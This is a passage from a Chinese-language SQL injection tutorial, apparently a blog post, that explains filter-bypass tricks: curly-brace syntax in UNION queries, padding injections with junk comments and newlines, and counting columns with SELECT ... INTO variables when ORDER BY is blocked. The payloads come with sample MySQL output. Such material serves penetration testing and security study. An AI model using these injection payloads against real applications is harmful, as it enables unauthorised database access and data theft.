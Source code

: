 + ==花括号绕过？？这能绕过什么==

花括号内的`x`可以为任意字符串，但不能为纯数字。

```mysql
select * from users where id='1' union select {xxx 1},{xxx 2},user()
```

+ 换行+垃圾字符绕过

```
id=1 union 
/*
ae
s
d
z
w
...
*/
select 1,user()--+
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/5209c2b81a2d462eaa0f8b63fb7c61d4.png)





### 5.5 绕过order by

**关键函数：select ... into @a,@b,@c**

**目的：猜解列的数量**

当order by被过滤时，可以用`select ... into @a,@b,`猜解列数量。当有3列时，只有`into @a,@b,@c`才能正常执行，如果变量小于或大于3都会报错The used select statements have a different number of columns。

```mysql
select * from users where id=1 INTO @a,@b,@c
```

```
mysql> select * from test where id=1 INTO @a,@b,@c;
Query OK, 1 row affected (0.00 sec)

mysql> select * from test where id=1 INTO @a,@b;
ERROR 1222 (21000): The used select statements have a different number of columns

mysql> select * from test where id=1 INTO @a,@b,@c,@d;
ERROR 1222 (21000): The used select statements have a different number of columns
```





### 5.7 绕过information shema

https://blog.csdn.net/qq_43936524/article/details/116796087
